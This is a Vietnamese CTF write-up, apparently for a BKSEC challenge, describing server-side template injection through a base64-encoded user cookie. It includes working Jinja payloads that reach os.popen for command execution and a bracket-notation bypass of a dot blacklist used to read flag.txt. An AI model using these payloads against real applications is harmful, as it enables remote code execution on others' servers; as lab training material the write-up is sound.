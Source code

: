 

Login với username tùy ý vào trang thì được trang sau
![image](https://user-images.githubusercontent.com/81417323/163924414-ae80872d-32da-44a0-8961-d2b129f3fa41.png)
Sau khi xem video => chall này dùng ssti nhưng quan trọng là ssti vào đâu ???

Dùng thử dirsearch để xem subdomain có gì đặc biệt không 
```dirsearch -u <url> -f ``` . Ta được kết quả sau
![image](https://user-images.githubusercontent.com/81417323/163926341-f9921d62-f08b-4282-88e5-d844bd6fa8bc.png)

Vào robots.txt : 

![image](https://user-images.githubusercontent.com/81417323/163926455-dd2a7cbd-a39c-4f5b-8588-9eae7054afd5.png)

=> truy cập /dashboard/r1CkA7sL3y

![image](https://user-images.githubusercontent.com/81417323/163926615-1d9e19d8-c255-4c7d-b64d-f55118afa34a.png)

chắc là ssti vào đây :vv. gửi qua burpsuite:

![image](https://user-images.githubusercontent.com/81417323/163926971-81f0e131-7628-42b0-9869-167ac5e56fc2.png)

Đoạn cookie trong req set user là Umljaw== hay Rick khi decode theo base64 => có thể ssti vào đây. Ta thử thay user = e3s3Kjd9fQ== ( base64decode là {{7\*7}}) thì được

![image](https://user-images.githubusercontent.com/81417323/163927552-ffd13b90-d8d5-4864-bde3-6096b0e55c69.png) => ssti vào đây.

ta thử với payload chưa encode sau 
``` {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}} ```

Kết quả :

![image](https://user-images.githubusercontent.com/81417323/163928206-9adf5da4-b728-4c8d-a27c-fe23c66c815d.png)

=> dấu "." đã bị blacklist 
thử với payload sau
``` {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}} ```

![image](https://user-images.githubusercontent.com/81417323/163936423-08e20b9f-e9eb-4433-a023-80e49b9b75b2.png)

Bingo !! 

payload cuối 
``` {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag\x2etxt')['read']()}} ```

![image](https://user-images.githubusercontent.com/81417323/163936819-5cbe8d66-0be8-4158-94c8-089ccaa42db2.png)

FLAG :  BKSEC{50_y0u_kn0w_5571}
